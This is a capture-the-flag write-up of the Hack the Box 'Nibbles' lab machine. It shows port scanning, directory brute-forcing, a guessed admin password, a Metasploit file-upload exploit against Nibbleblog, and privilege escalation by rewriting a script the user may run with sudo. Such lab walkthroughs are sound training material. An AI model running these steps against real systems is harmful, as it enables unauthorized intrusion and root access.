

# Hack the box - Nibbles


&nbsp;<span style="color:#b5e853; font-weight: bold">OS:  </span><b>Linux</b>
&nbsp;<span style="color:#b5e853; font-weight: bold">IP: </span><b>10.10.10.75</b>

&nbsp;<span style="color:#b5e853; font-weight: bold">Difficulity: </span><b>Easy</b>
&nbsp;<span style="color:#b5e853; font-weight: bold">Release: </span><b>2018 Jan 13</b>

___

## Port scanning
```
nmap -sC -sV -T4 -oA nmap 10.10.10.75
```


We can see that machine has web server.

## Web fingerprinting

When we go on the index page, there is simple "Hello world!" text with directory hidden in source:


We could try to directory bruteforce with ffuf:

```
ffuf -t 100 -w http://10.10.10.75/nibbleblog/FUZZ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
```


/nibbleblog/admin contains login page:



There is also README file accessible that could give hints about web application version:


There is information about service version that we could use to find exploits:


It seems that the blog is vulnerable. But we need to have login access to upload file. Different credentials were tried but admin:nibbles seems to work:


## Exploitation

We will use metasploit framework:

```
use exploit/multi/http/nibbleblog_file_upload
set rhosts 10.10.10.75
set username admin
set password nibbles
set targeturi /nibbleblog/
run
```


## Getting user flag

After complete exploit, we have access to user home directory where is our 1st flag:


## Privilege escalation

There is script running that have no password required for sudo rights:

```
sudo -l
```


We could use that file to output root flag with shell script:

```
echo "#!/bin/bash" > /home/nibbler/personal/stuff/monitor.sh
echo "cat /root/root.txt" >> /home/nibbler/personal/stuff/monitor.sh
sudo -u root /home/nibbler/personal/stuff/monitor.sh
```

